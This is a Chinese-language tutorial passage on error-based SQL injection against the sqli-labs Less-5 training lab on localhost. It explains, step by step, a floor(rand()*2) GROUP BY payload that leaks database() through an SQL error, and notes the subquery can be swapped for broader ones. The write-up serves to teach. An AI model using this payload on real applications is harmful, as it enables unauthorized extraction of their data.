 URL:localhost:8081/sqli-labs/Less-5/？id=1

要在屏幕上显示 SQL 错误，可以使用单引号或双引号。

![](img/bdae405e13c49d5d82e59f327d14d95b.png)

URL:localhost:8081/sqli-labs/Less-5/？id=1'

该方法与基于联合的 SQLi 相同。唯一的区别是您只能运行特定的查询。该语句有点复杂，会触发一个 SQL 错误来转储查询的输出。

```
SELECT 1 from (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT database()), 0x3a, 0x3a, floor( rand() * 2 ) )a FROM information_schema.columns GROUP BY a ) b;
```

我们将把上面的查询分解成子查询，以便更好地理解它们:

恶意代码为' SELECT database()'，显示当前数据库名称但出现 SQL 错误。这里，我们将采用可能重复的多行，并尝试将它们放入一个包或视图中。在出现重复行的情况下，您将通过 SQL 得到一个运行时错误，用于插入重复行和所需的输出。

一旦你理解了这个复杂的查询是如何工作的，你就可以用更广泛的查询来代替' SELECT database()'部分。我们已经解释了上述复杂查询的子查询。

获取当前数据库的名称。您可以用其他查询替换它。

得到一个随机数，要么是 0，要么是 1。

*   CONCAT(0x3a，0x3a，(SELECT database())，0x3a，0x3a，floor( rand() * 2 ) ) :

它将连接数据库名称左边的两个冒号和右边的两个冒号，并在末尾随机添加 0 或 1。

*   SELECT COUNT(*)，CONCAT(0x3a，0x3a，(SELECT database())，0x3a，0x3a，floor(rand()* 2))a FROM information _ schema . columns GROUP BY a

初始“select”和“from”之间的查询部分将被迭代几次，迭代次数等于数据库 information_schema 的 columns 表中的行数。我们有意迭代它来生成重复的行，从而产生运行时错误。查询的这一部分将根据“a”和连接部分的分组选择行数，a 是先前连接结果的别名。

```
SELECT 1 from (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT database()), 0x3a, 0x3a, floor( rand() * 2 ) )a FROM information_schema.columns GROUP BY a ) b;
```

现在，我们刚刚将前面的查询嵌套到另一个 select 语句中，以获得一列。我们不希望它在这里返回结果，所以我们将它硬编码为 1，因为我们只需要 SQL 错误。
